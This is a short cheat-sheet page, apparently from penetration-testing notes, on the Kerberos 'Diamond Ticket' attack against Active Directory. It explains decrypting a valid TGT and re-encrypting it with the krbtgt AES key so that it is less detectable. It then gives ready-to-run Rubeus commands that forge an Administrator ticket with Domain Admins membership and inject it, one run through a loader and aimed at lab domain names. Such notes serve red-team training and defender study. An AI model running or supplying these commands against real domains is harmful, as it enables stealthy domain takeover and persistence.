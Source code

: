 # Diamond Ticket

A diamond ticket is created by decrypting a valid TGT, making changes to it and re-encrypt it using the AES keys of the krbtgt account which makes it less detectable. Diamond Ticket is more about repackaging than forging. It’s a lot more OpSec safe than Golden Ticket.

## Repackage the Ticket

<pre class="language-batch" data-overflow="wrap"><code class="lang-batch"><strong># With user password
</strong><strong>Rubeus.exe diamond /domain:DOMAIN /user:USER /password:PASSWORD /dc:DOMAIN_CONTROLLER /enctype:AES256 /krbkey:HASH /ticketuser:USERNAME /ticketuserid:USER_ID /groups:GROUP_IDS /show /ptt
</strong><strong>
</strong><strong># With domain users
</strong>C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args diamond /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /enctype:AES256 /krbkey:&#x3C;aes_hash> /ticketuser:Administrator /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt /tgtdeleg
</code></pre>

